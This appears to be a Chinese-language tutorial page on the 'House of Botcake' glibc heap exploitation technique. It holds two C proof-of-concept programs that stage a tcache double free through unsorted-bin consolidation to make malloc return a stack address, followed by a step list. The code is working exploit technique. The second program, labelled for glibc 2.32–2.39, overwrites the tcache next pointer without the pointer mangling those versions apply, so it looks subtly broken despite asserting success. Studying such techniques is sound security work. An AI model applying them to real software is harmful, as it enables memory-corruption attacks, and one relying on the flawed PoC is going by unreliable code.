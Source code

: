 # house of botcake

### 介绍

House of botcacke 合理利用了 Tcache 和 Unsortedbin 的机制，同一堆块第一次 Free 进 Unsortedbin 避免了 key 的产生，第二次 Free 进入 Tcache，让高版本的 Tcache Double Free 再次成为可能。

### POC

#### glibc 2.27 - 2.31

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
    intptr_t stack_var[4];
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
    
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);

    free(a);// a is already freed
  
 
    intptr_t *b = malloc(0x120);
    b[0x120/8-2] = (long)stack_var;

    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!\n\n");

    return 0;
}
```

#### glibc 2.32--2.39

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>


int main()
{
    
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);


    // prepare the target
    intptr_t stack_var[4];

    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    

    for(int i=0; i<7; i++){
        free(x[i]);
    }

    free(a);

    free(prev);

    malloc(0x100);
    free(a);// a is already freed
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;
    
    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);

    return 0;
}
```

### 利用思路

1. 申请7个0x100大小的chunk
2. 在申请大小为0x100的chunk1 ，chunk2 
3. free 7个chunk填充tcache
4. free chunk2,chunk1 ，使其进入unsorted bin，并因为连续所以合并。
5. malloc 0x100，从tache里取出一个free chunk
6. free chunk2 使其进入 tache bin，这样tache bin中就有了unsorted bin中的一块小内存
7. malloc 0x120 从 unsorted bin中分割出来一块内存，可覆盖chunk2的next指针
8. 伪造next指针

